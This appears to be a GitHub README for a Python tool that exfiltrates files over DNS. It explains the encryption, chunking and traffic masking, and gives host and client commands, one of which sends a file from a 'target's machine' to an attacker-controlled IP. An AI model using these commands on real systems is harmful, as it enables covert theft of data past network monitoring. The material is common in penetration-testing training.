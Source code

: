 # A lightweight, easy-to-use, DNS data exfiltrator
As I was plowing through the INE eJPT course, I ran into a DNS data exfiltrator that I thought was annoying to use. So I rolled my own. This is the result. I am open to suggestions, critique and questions. I learned a lot from building this, both about the DNS protocol and how data exfiltration works and some neat tricks in Python. I hope it'll benefit you in your (legal!) endeavors.

The way this script works is by reading, and encrypting, the to-be-exfiltrated file. The encrypted file contents is then split up into packets of 32 bytes (by default) as DNS queries cannot be greater than 63 octets. The encrypted packets are then sent to the host as the queried FQDN. The host will then receive the DNS query with the encrypted packet, respond with a valid DNS response, paste the packets back together to form the file and decrypt its contents. Et voila, an exfiltrated file.

The data that is being exfiltrated is encrypted using AES256 symmetric encryption. It is therefore important that you set the same seed phrase or password on both the host and client.

## Installation
Just clone/download the script from this Git repo and run the script as instructed below.

## Dependencies / Requirements
* Python 3.8+
* PyCryptodome: `pip3 install pycryptodome`

## Usage
The script can be run in two modes: `host` or `client`. The host mode should be used on your own machine, where the data is being exfiltrated __to__. The client mode should be run on your target's machine, where the data is being exfiltrated __from__. 

### Host
Running the script in host mode will run a DNS server on udp/53, which is built specifically to receive exfiltrated data from the script in client mode and respond accordingly with a standard DNS reponse in order to further mask the traffic as being legitimate. For example:
```
python3 dns-exfil.py -mode host -hostip "127.0.0.1" -password "s3cr3tp4ssw0rd"
```

This will start a DNS server on UDP port 53 (default, can be changed) and use the seed phrase specified by the `-password` argument to decrypt the received data.

### Client
On your target machine, copy-paste / install the script and run it. For example:
```
python3 dns-exfil.py -mode client -dest "your_public_machine_ip" -password "s3cr3tp4ssw0rd" -file "/path/to/the/file/you/want/to/exfil"
```

When executed on your target's machine, the script will open up the specified `-file`, encrypt the data with the provided `-password` seed phrase and send over the encrypted file contents through DNS queries to the specified `-dest` IP address / host name (this should be the IP where you are running the script in host mode).

### More help on arguments and options
```
python3 dns-exfil.py -h
```
